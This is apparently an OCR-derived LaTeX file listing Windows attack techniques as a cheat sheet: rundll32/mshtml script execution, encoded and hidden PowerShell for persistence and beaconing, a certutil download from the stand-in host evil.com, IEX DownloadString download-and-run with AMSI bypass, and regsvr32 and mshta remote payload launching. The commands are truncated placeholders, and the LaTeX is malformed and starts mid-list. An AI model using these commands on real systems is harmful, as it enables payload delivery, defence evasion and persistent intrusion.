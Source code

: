 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}[leftmargin=*,itemsep=0.5em]
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
rundll32.exe javascript:"\..\..\mshtml,RunHTMLApplication ..."
\end{verbatim}
    \end{tcolorbox}
  \item Abuse \texttt{schtasks} to run \texttt{powershell -enc <b64>}.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
powershell -enc <b64>
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{powershell -nop -w hidden -enc ...} keeps beacon alive.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
powershell -nop -w hidden -enc ...
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{certutil -urlcache -split -f http[:]//evil.com/secret.zip secret.zip}
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
certutil -urlcache -split -f http[:]//evil.com/secret.zip secret.zip
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{powershell.exe} Automation scripts Download-exec (\texttt{IEX (New-Object Net.WebClient) \\
  .DownloadString()}), AMSI bypass
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
IEX (New-Object Net.WebClient).DownloadString()
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{regsvr32.exe} Register COM DLLs Download \& run scriptlet via \texttt{/s /n /u /i:url scrobj.dll}
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
/s /n /u /i:url scrobj.dll
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{mshta.exe} Run HTML applications Remote .hta launching malware

\end{enumerate}
\end{document}
